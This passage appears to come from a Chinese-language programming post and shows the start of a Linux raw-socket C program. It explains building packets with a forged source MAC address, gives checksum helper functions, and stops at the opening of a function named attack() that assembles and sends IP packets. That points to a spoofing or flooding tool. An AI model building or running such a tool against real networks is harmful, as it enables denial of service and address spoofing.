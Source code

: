 ```
	}
```

构造mac源地址包，注意目标mac地址要正确，可以本机先抓包看看是什么

```
	#include <stdlib.h>
	#include <stdio.h>
	#include <errno.h>
	#include <string.h>
	#include <unistd.h>
	#include <netdb.h>
	#include <sys/socket.h>
	#include <sys/types.h>
	#include <netinet/in.h>
	#include <netinet/ip.h>
	#include <arpa/inet.h>
	#include <linux/tcp.h>

	#include <linux/if_ether.h>
	#include <linux/if_arp.h>
	#include <linux/sockios.h>

	unsigned csum_tcpudp_nofold(unsigned saddr, unsigned daddr,
				unsigned len, unsigned proto, unsigned sum)
	{
		unsigned long long s = (unsigned)sum;
		s += (unsigned)saddr;
		s += (unsigned)daddr;
		s += (proto + len) << 8;
		s += (s >> 32);
		return (unsigned)s;
	}

	unsigned short check_sum(unsigned short *addr, int len, unsigned sum)
	{
		int nleft = len;
		unsigned short *w = addr;
		unsigned short ret = 0;
		while (nleft > 1) {
			sum += *w++;
			nleft -= 2;
		}
		if (nleft == 1) {
			*(unsigned char *)(&ret) = *(unsigned char *)w;
			sum += ret;
		}

		sum = (sum>>16) + (sum&0xffff);
		sum += (sum>>16);
		ret = ~sum;
		return ret;
	}

	int change(char c)
	{
		if (c >= 'a') return c-'a'+10;
		if (c >= 'A') return c-'A'+10;
		return c-'0';
	}

	//在该函数中构造整个IP报文，最后调用sendto函数将报文发送出去
	void attack(int skfd, struct sockaddr_ll *target, char **argv)
	{
```